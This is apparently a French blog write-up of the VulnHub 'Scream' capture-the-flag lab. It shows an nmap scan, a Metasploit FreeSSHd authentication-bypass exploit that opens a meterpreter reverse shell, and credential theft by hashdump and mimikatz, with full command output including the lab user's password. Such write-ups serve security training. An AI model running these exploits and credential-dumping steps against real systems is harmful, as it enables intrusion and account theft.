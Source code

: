 ```yaml
---
title: "Solution du CTF Scream de VulnHub"
tags: [CTF,VulnHub]
---
```


Nitro
-----

Une mise à jour vers [Metasploit 4.9](https://community.rapid7.com/community/metasploit/blog/2014/03/26/new-metasploit-49-helps-evade-anti-virus-solutions-test-network-segmentation-and-increase-productivity-for-penetration-testers) et on est reparti !  

Comme pour le [CTF Bobby 1]({% link _posts/2014-03-28-Solution-du-CTF-Bobby-1-de-VulnHub.md %}) on a affaire à un CTF Windows qui passe par la personnalisation d'un ISO de XP SP3.  

Par conséquent, allez faire un tour sur mon précédent article pour la mise en place.  

Ici l'objectif [du challenge Scream](http://vulnhub.com/entry/devrandom_scream,47/) est d'obtenir le mot de passe de l'utilisateur local.  

*Nmap* révèle la présence de différents services :  

```
Nmap scan report for 192.168.1.22
Host is up (0.00029s latency).
Not shown: 996 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     WAR-FTPD 1.65 (Name Scream XP (SP2) FTP Service)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 1 ftp ftp              0 Mar 29 14:35 bin
| drwxr-xr-x 1 ftp ftp              0 Mar 29 14:35 log
|_drwxr-xr-x 1 ftp ftp              0 Mar 29 14:35 root
|_ftp-bounce: bounce working!
22/tcp open  ssh     WeOnlyDo sshd 2.1.3 (protocol 2.0)
| ssh-hostkey: 1024 2c:23:77:67:d3:e0:ae:2a:a8:01:a4:9e:54:97:db:2c (DSA)
|_1024 fa:11:a5:3d:63:95:4a:ae:3e:16:49:2f:bb:4b:f1:de (RSA)
23/tcp open  domain  ISC BIND login
80/tcp open  http    Tinyweb httpd 1.93
|_http-methods: No Allow or Public header in OPTIONS response (status code 403)
|_http-title: The Scream - Edvard Munch
MAC Address: 08:00:27:78:63:1B (Cadmus Computer Systems)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Microsoft Windows 2000|XP
OS CPE: cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_xp::sp2 cpe:/o:microsoft:windows_xp::sp3
OS details: Microsoft Windows 2000 SP4, Microsoft Windows XP SP2 or SP3
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Le serveur web a juste une page d'index avec un ascii-art qui reprends le fameux [Cri d'Edvard Munch](http://fr.wikipedia.org/wiki/Le_Cri) (parenthèse culturelle il parait que c'est la tableau le plus cher au monde...)  

A part ça rien à voir de ce côté.  

Je me suis intéressé au serveur FTP qui permet les connexions en anonymous. Aucun droit n'est donné quand on s'y connecte (les fichiers ne sont pas lisibles), aussi j'ai tenté d'exploiter la faille dans cette version de *WAR-FTPD*.  

*Metasploit* dispose en effet d'un exploit baptisé *"War-FTPD 1.65 Username Overflow"* qui compte XP SP3 dans les plateformes supportées. Ça semblait prometteur mais malgré tous mes essais, rien à faire. *Metasploit* a indiqué par moment que l'exploit a aboutit mais rien sur notre port d'écoute qui attend un reverse-shell :(   

J'ai remarqué lors de la personnalisation de l'ISO par *AutoIt* une fenêtre *AVG* qui pourrait être la cause de ce problème. Mais même en jouant avec les différents payloads, encodeurs et options avancées (*show advanced*) toujours pas de shell :(  

G0t syst3m ?
------------

Je me suis alors rabatu sur le serveur SSHD : j'ai trouvé [un exploit de KingCope](http://www.exploit-db.com/exploits/23080/) pour une faille permettant de bypasser l'authentification.  

L'exploit consiste à récupérer et modifier un client SSH ([5.8p2](https://launchpad.net/openssh/main/5.8p2)) mais après avoir testé plusieurs noms d'utilisateurs, force est de constater que ça ne marchait pas.  

Je me suis bêtement rendu compte en fouillant un peu plus que *Metasploit* disposait aussi d'un exploit pour la même vulnérabilité :  

```
msf exploit(freesshd_authbypass) > show options

Module options (exploit/windows/ssh/freesshd_authbypass):

   Name       Current Setting                                                   Required  Description
   ----       ---------------                                                   --------  -----------
   RHOST      192.168.1.22                                                      yes       The target address
   RPORT      22                                                                yes       The target port
   USERNAME                                                                     no        A specific username to try
   USER_FILE  /data/metasploit-4.9/apps/pro/msf3/data/wordlists/unix_users.txt  yes       File containing usernames, one per line

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none)
   LHOST     192.168.1.3      yes       The listen address
   LPORT     9999             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Freesshd <= 1.2.6 / Windows (Universal)

msf exploit(freesshd_authbypass) > exploit

[*] Started reverse handler on 192.168.1.3:9999 
[*] Trying username '4Dgifts'
[*] Trying username 'EZsetup'
[*] Trying username 'OutOfBox'
[*] Trying username 'ROOT'
[*] Trying username 'adm'
[*] Trying username 'admin'
[*] Uploading payload, this may take several minutes...
[*] Sending stage (769536 bytes) to 192.168.1.22
[*] Meterpreter session 1 opened (192.168.1.3:9999 -> 192.168.1.22:1072) at 2014-03-29 16:59:54 +0100

meterpreter > ps

Process List
============

 PID   PPID  Name                            Arch  Session     User                          Path
 ---   ----  ----                            ----  -------     ----                          ----
 0     0     [System Process]                      4294967295                                
 4     0     System                          x86   0           NT AUTHORITY\SYSTEM           
 236   636   alg.exe                         x86   0           NT AUTHORITY\LOCAL SERVICE    C:\WINDOWS\System32\alg.exe
 384   4     smss.exe                        x86   0           NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 456   412   explorer.exe                    x86   0           SCREAM\alex                   C:\WINDOWS\Explorer.EXE
 568   384   csrss.exe                       x86   0           NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\csrss.exe
 592   384   winlogon.exe                    x86   0           NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\winlogon.exe
 636   592   services.exe                    x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\services.exe
 648   592   lsass.exe                       x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\lsass.exe
 804   636   svchost.exe                     x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\svchost.exe
 828   980   wscntfy.exe                     x86   0           SCREAM\alex                   C:\WINDOWS\system32\wscntfy.exe
 884   636   svchost.exe                     x86   0           NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\svchost.exe
 980   636   svchost.exe                     x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\System32\svchost.exe
 1036  636   svchost.exe                     x86   0           NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\svchost.exe
 1060  636   svchost.exe                     x86   0           NT AUTHORITY\LOCAL SERVICE    C:\WINDOWS\system32\svchost.exe
 1224  1292  aCwFw.exe                       x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\TEMP\aCwFw.exe
 1268  636   spoolsv.exe                     x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\spoolsv.exe
 1492  592   logon.scr                       x86   0           SCREAM\alex                   C:\WINDOWS\System32\logon.scr
 1556  636   FileZilla server.exe            x86   0           NT AUTHORITY\SYSTEM           C:\Program Files\FileZilla Server\FileZilla Server.exe
 1588  636   FreeSSHDService.exe             x86   0           NT AUTHORITY\SYSTEM           C:\Program Files\freeSSHd\FreeSSHDService.exe
 1740  636   OpenTFTPServerMT.exe            x86   0           NT AUTHORITY\SYSTEM           C:\OpenTFTPServer\OpenTFTPServerMT.exe
 1792  456   FileZilla Server Interface.exe  x86   0           SCREAM\alex                   C:\Program Files\FileZilla Server\FileZilla Server Interface.exe

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > run post/windows/gather/hashdump

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 24198fa48ad44c4d77fb0d536e590e53...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:2bf1928be3d38ac3cd7fe0c29e77fe10:62a47ba71ff4351f45933a18ccfb6db4:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:9218eb1721cfcff146867f9d715fa8df:::
alex:1003:aad3b435b51404eeaad3b435b51404ee:504182f8417ed8557b67e96adc8b4d04:::
```

Aïe, la compatibilité lanman semble avoir été désactivée (on voit pour les hashs LM des *aad3*... qui correspondent à une chaîne vide).  

A tout hazard on lance *John The Ripper* mais après quelques minutes on se dit que ce n'est pas la peine d'insister :(   

Finalement je tombe [sur cet article](http://www.securityartwork.es/2013/06/04/mimikatz-extension-for-metasploit/?lang=en) qui parle du module *Mimikatz* dans *Metasploit*. Mettons en application :  

```
meterpreter > load mimikatz
Loading extension mimikatz...success.

meterpreter > kerberos
[+] Running as SYSTEM
[*] Retrieving kerberos credentials
kerberos credentials
====================

AuthID   Package    Domain        User             Password
------   -------    ------        ----             --------
0;999    NTLM       WORKGROUP     SCREAM$          
0;997    Negotiate  NT AUTHORITY  LOCAL SERVICE    
0;25771  NTLM                                      
0;996    Negotiate  NT AUTHORITY  NETWORK SERVICE  
0;34724  NTLM       SCREAM        alex             thisisaverylongpassword
```

Effectivement c'est plus rapide :p   


*Published March 29 2014 at 17:39*
